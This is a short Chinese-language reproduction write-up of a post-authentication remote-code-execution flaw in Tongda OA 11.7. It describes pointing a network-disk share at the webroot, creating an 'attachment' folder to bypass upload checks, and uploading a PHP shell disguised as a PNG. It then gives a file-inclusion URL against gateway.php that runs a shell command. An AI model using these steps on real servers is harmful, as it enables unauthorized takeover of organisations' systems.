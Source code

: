 通达oa 11.7 后台getshell
========================

一、漏洞简介
------------

需要后台管理权限

二、漏洞影响
------------

通达oa 11.7

三、复现过程
------------

找到网络硬盘，创建共享目录为webroot目录地址

![3.png](resource/通达oa11.7后台getshell/media/rId24.png)

进行权限设置

![4.png](resource/通达oa11.7后台getshell/media/rId25.png)

![5.png](resource/通达oa11.7后台getshell/media/rId26.png)

然后general在这里需要创建一个叫attachment的文件夹进行绕过

![6.png](resource/通达oa11.7后台getshell/media/rId27.png)

在attachment这个文件夹就可以上传png了

![7.png](resource/通达oa11.7后台getshell/media/rId28.png)

下面用通达万年不变的文件包含，格式为这个`https://www.0-sec.org/ispirit/interface/gateway.php?json={%22url%22:%22general/attachment/shell.php.png%22}&cmd=echo%20hhhhhh;`
